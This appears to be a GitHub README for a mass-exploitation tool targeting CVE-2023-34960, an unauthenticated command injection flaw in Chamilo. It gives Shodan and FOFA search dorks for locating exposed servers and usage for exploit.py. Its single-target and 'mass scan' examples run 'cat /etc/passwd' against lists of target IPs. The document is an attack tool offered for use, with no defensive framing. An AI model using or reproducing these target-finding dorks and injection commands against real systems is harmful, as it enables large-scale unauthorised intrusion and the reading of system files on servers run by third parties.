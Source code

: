 # CVE-2023-34960
Mass unauthenticated command injection Chamilo

- Shodan dork:
```
http.component:"Chamilo"
```
- FOFA dork:
```
body="content=\"Chamilo 1"
```
## Install
```
pip install -r requirements.txt
```
## Usage
```
usage: exploit.py [-h] [-u URL] [-f FILENAME] [-c COMMAND] [-t THREADS]
                  [-o OUTPUT]

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     URL address (without 'http://' prefix)
  -f FILENAME, --filename FILENAME
                        File containing URLs
  -c COMMAND, --command COMMAND
                        Command to execute (optional)
  -t THREADS, --threads THREADS
                        Maximum number of concurrent threads
  -o OUTPUT, --output OUTPUT
                        Output file for saving the results
# Single scan.
python3 exploit.py -u target_IP -c 'cat /etc/passwd'

# Mass scan.
python3 exploit.py -f list_ip.txt -c 'cat /etc/passwd'
```
